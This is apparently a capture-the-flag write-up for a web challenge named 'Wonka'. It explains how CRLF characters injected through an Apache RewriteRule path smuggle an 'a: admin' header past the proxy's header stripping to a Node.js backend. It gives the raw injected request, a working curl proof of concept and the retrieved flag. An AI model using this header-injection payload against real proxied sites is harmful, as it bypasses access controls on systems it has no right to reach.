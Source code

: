 # **Wonka CTF Challenge Writeup: Header Injection via Path-Based Request Smuggling**

**Challenge URL**: `https://wonka.chal.cyberjousting.com`  
**Category**: Web Exploitation  
**Difficulty**: Medium  
**Solved By**: [Your Name]  
**Date**: [Date Solved]  

---

## **Challenge Overview**
The challenge consists of a two-tier web application:
1. **Frontend**: Apache HTTP server (port `1337`)  
   - Proxies requests to `/name/<input>` to the backend.  
   - Strips all `A/a` headers using `RequestHeader unset`.  
2. **Backend**: Node.js/Express server (port `3000`)  
   - Returns the flag if the request contains the header `a: admin`.  
   - Otherwise, it echoes back a sanitized `name` parameter.

**Objective**: Retrieve the flag by bypassing the frontend's header stripping mechanism.

---

## **Vulnerability Analysis**
The key vulnerabilities are:
1. **Apache RewriteRule Misconfiguration**  
   - The `RewriteRule` forwards raw path input to the backend without sanitizing newlines (`\r\n`).  
   - This allows **HTTP header injection** via the path parameter.  

2. **Header Stripping Bypass**  
   - The `RequestHeader unset A/a` directive only removes headers from the original request, not those injected later.  

3. **Backend Trusts Raw Input**  
   - The Node.js backend processes the smuggled headers as part of the HTTP request.

---

## **Exploitation Steps**
### **Step 1: Crafting the Malicious Request**
To bypass the frontend’s header stripping, we inject a fake HTTP request inside the path parameter:
```
/name/test HTTP/1.1\r\n
Host: wonka.chal.cyberjousting.com\r\n
a: admin\r\n
\r\n
```
- Encoded in a `curl` command:
  ```bash
  curl -i "https://wonka.chal.cyberjousting.com/name/test%20HTTP/1.1%0d%0aHost:%20wonka.chal.cyberjousting.com%0d%0aa:%20admin%0d%0a%0d%0a"
  ```

### **Step 2: Why This Works**
1. The `%20` (space) and `%0d%0a` (CRLF) characters trick Apache into interpreting the path as a new HTTP request.  
2. The backend receives:
   ```
   GET /?name=test HTTP/1.1
   Host: wonka.chal.cyberjousting.com
   a: admin
   ```
3. Since the `a: admin` header is present, the backend returns the flag.

---

## **Proof of Concept (PoC)**
```bash
curl -i "https://wonka.chal.cyberjousting.com/name/test%20HTTP/1.1%0d%0aHost:%20wonka.chal.cyberjousting.com%0d%0aa:%20admin%0d%0a%0d%0a"
```
**Expected Output**:
```http
HTTP/2 200 OK
...
byuctf{i_never_liked_w1lly_wonka}
```

---
